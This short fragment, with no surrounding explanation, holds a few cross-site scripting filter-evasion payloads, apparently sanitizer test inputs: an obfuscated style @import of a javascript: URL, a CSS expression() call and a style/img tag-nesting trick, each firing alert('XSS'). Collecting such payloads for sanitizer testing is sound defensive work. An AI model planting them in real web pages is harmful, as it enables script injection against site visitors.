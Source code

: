 

<style>@im\port'\ja\vasc\ript:alert("XSS")';</style>
<img style="xss:expr/*XSS*/ession(alert('XSS'))">
<img src="x">
<style><img src="</style><img src="x">
